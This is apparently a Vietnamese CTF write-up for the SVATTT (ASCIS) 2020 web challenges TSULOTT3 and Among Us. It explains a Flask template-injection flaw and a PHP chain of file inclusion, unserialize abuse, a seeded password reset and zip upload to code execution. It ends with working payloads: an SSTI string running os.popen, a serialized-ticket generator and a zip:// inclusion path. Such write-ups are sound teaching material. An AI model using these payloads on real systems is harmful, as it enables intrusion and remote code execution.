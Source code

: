 ```yaml
---
layout: post
comments: true
title: SVATTT (ASCIS) 2020
categories: ['2020']
---
```


1) Source cho ai cần (chỉ những file cần thiết để dựng lại bài, không có front-end hay các file dư ra):

- [Among Us](https://github.com/matuhn/matuhn.github.io/blob/master/_posts/SVATTT2020/svattt_web1.zip)

- [TSULOTT3](https://github.com/matuhn/matuhn.github.io/blob/master/_posts/SVATTT2020/svattt_web2.zip)

2) Note lại cách giải 2 bài trên (mọi người có thể kéo xuống dưới cùng để xem Payload:

## TSULOTT 3

Bài này được code bằng Flask, phần code bị lỗi SSTI là đoạn dưới đây
 
```Python
return render_template_string(cheat+check_session("name"))
```
 
 Vì vậy chỉ cần cho name = Payload, sau đó trigger để app.py gọi đoạn đó render_template_string ra là RCE được
 
## Among Us

Bài này được code bằng PHP, và theo từng bước sau đây để có thể RCE được:
- LFI ở index.php để có thể lấy được source cả bài về debug ở máy local

```PHP
include($_GET['page'] . ".php")
```

- Forgot Password 

```PHP
$ticket = unserialize(base64_decode($_POST["ticket"]));
```

Ticket nhận giá trị từ người dùng, nên ta có thể dễ dàng điều khiển được các tham số của ticket dựa trên các loại dữ liệu của 1 Object PHP



- Check_user_exist

```PHP
$count = check_user_exists($conn, $username);
```

Để có thể forgot password 1 user bất kì thì ta phải có 1 user hợp lệ trong database, cái này tác giả đã cung cấp ở crew.php, nếu bạn debug ở local thì có thể tạo 1 vài user trong db như user1, user2 cũng được

- Check_length

```PHP
return strlen($input)==$length || count($input)==$length || sizeof($input)==$length;
```

secret_number nhận từ người dùng có thể là 1 giá trị có len = 9 hay 1 array có len = 9 cũng được, chỗ này nhờ PHP Object thì mình có thể đưa array vào

- Reset password

```PHP
if(check_length($secret_number, 9)) {
					$secret_number = strtoupper($secret_number);
					$secret_number = check_string($secret_number);
					$secret = get_secret($conn,$username);
					var_dump($secret_number);
					var_dump($secret);

					if($secret_number !== $secret) {
						print("Wrong secret!");
					}
					else
					{
					print("OK, we will send you the new password");}
					print $secret_number;
					$random_rand = rand(0,$secret_number);
					srand($random_rand);
					$new_password = "";
					while(strlen($new_password) < 30) {
						$new_password .= strval(rand());
					}
					reset_password($conn, $username, $new_password);
					//to do: send mail the new password to the user, code later
					//print($new_password);
				}
```

Có thể để ý ở đây là lỗi typo, dù secret_number có đúng hay không thì password vẫn reset (vì nằm bên ngoài if). Nhưng nếu không tìm được 1 cách để control được secret_number thì không thể có được password để đăng nhập sau khi reset
Để control được new_password thì phải control được rand(). Theo thứ tự việc cần làm thì:

new_password <= rand <= srand <= rand

Và để controll được $random_rand thì $secret_number phải bằng NULL vì rand(0,NULL) = 0 :?

$secret_number = NULL chỉ khi $secret_number là array, sau khi đưa qua strtoupper sẽ trở thành NULL value

```Debug
php > var_dump(strtoupper(array("ingame","lmht","buixuanhuan")));
PHP Warning:  strtoupper() expects parameter 1 to be string, array given in php shell code on line 1

Warning: strtoupper() expects parameter 1 to be string, array given in php shell code on line 1
NULL
```

- Upload, Download zip

Reset password thành công thì khi vào electrical.php sẽ có chức năng upload zip và download file đó về 

```PHP
function upload($file) {
	if(isset($file))
	{
		if($file["size"] > 1485760) {
			die('<center>IMPOSTOR ALERT!!!</center>');
		}	
		$uploadfile=$file["tmp_name"]; // .zip
		$folder="crew_upload/";
		$file_name=$file["name"]; // no .zip
		$new = $file["tmp_name"].$file_name;
		echo $new;
		move_uploaded_file($file["tmp_name"], $new);
		//echo $new;
		//echo $file["tmp_name"];
		$zip = new ZipArchive(); 
		$zip_name ="crew_upload/".md5(uniqid(rand(), true)).".zip"; // Zip name
		if($zip->open($zip_name, ZIPARCHIVE::CREATE)!==TRUE)
		{ 
		 	echo "Sorry ZIP creation failed at this time";
		}
		$zip->addFile($new);
		$zip->close();
		if(isset($_SESSION["link"]) && !empty($_SESSION["link"])) {
			unlink($_SESSION["link"]);
			unset($_SESSION["link"]);
		}
		$_SESSION["link"] = $zip_name;
		#header("Refresh: 0");
	}
}
```

Luồng hoạt động của function Upload như sau 

nhận file upload (test.zip) => rename file thành (tmpxyztest.ziptmpxyztest) => tạo file zip có tên file random => move file zip upload bởi người dùng vào file zip vừa tạo

Ta có 1 file: test.zip (chứa test.php), sau khi upload lên sẽ được download về 1 file zip chứa 1 file zip khác trong đó và bên trong file zip đó sẽ chứa file php ban đầu

Sau khi nhận file upload từ người dùng, web lưu lại 1 bản temp trong /tmp. Kết hợp với LFI có thể dùng protocol zip:// có thể gọi thẳng đến file PHP ban đầu => RCE

# Payload

## TSULOTT3

```Python
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

## AmongUs

Gen Password 

```PHP
<?php 


class CrewMate{
	public $name = "tsu";
	public $secret_number = array("111111111","111111111","111111111","111111111","111111111","111111111","111111111","111111111","111111111");
	// password= 117856802212731241191535857466
}


$ticket = new CrewMate();
echo base64_encode(serialize($ticket));

echo "</br>";

echo var_dump(serialize($ticket))
#
?>
```

RCE Protocol ZIP

```
zip:///tmp/php(random_thing)test.zip%23test
```
